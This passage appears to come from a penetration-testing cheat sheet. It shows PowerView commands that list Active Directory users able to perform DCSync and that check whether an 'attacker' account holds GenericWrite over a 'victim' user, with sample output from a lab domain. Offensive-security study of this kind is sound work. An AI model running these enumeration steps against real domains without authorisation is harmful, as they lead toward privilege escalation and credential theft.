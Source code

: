 Find all users who can DCSync and convert their SIDs to names:

```
PowerView3 > $dcsync = Get-ObjectACL "DC=megacorp,DC=local" -ResolveGUIDs | ? {$_.ActiveDirectoryRights -match "GenericAll" -or $_.ObjectAceType -match "Replication-Get"} | select -ExpandProperty SecurityIdentifier | select -ExpandProperty value
PowerView3 > Convert-SidToName $dcsync
```

### PowerView2 <a href="#powerview2" id="powerview2"></a>

Search for interesting ACLs:

```
PowerView2 > Invoke-ACLScanner -ResolveGUIDs
```

Check if the attacker "MEGACORP\sbauer" has `GenericWrite` permissions on the "jorden" user object:

```
PowerView2 > Get-ObjectAcl -samAccountName jorden -ResolveGUIDs | ? {$_.ActiveDirectoryRights -like "*GenericWrite*" -and $_.IdentityReference -eq "MEGACORP\sbauer"}
​
InheritedObjectType   : All
ObjectDN              : CN=Jorden Mclean,OU=Athens,OU=Employees,DC=MEGACORP,DC=LOCAL  <== Victim (jorden)
ObjectType            : All
IdentityReference     : MEGACORP\sbauer  <== Attacker (sbauer)
IsInherited           : False
ActiveDirectoryRights : GenericWrite
PropagationFlags      : None
ObjectFlags           : None
InheritanceFlags      : ContainerInherit
InheritanceType       : All
AccessControlType     : Allow
ObjectSID             : S-1-5-21-3167813660-1240564177-918740779-3110
```

### PowerView3 <a href="#powerview3" id="powerview3"></a>

Search for interesting ACLs:

```
PowerView3 > Find-InterestingDomainAcl -ResolveGUIDs | ? {$_.IdentityReferenceClass -match "user"}
```

Check if the attacker "MEGACORP\sbauer" (`S-1-5-21-3167813660-1240564177-918740779-3102`) has `GenericWrite` permissions on the "jorden" user object:

```
PowerView3 > Get-DomainObjectAcl -Identity jorden -ResolveGUIDs | ? {$_.ActiveDirectoryRights -like "*GenericWrite*" -and $_.SecurityIdentifier -eq "S-1-5-21-3167813660-1240564177-918740779-3102"}
​
AceType               : AccessAllowed
ObjectDN              : CN=Jorden Mclean,OU=Athens,OU=Employees,DC=MEGACORP,DC=LOCAL
ActiveDirectoryRights : GenericWrite
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3167813660-1240564177-918740779-3110  <== Victim (jorden)
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3167813660-1240564177-918740779-3102  <== Attacker (sbauer)
AccessMask            : 131112
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```
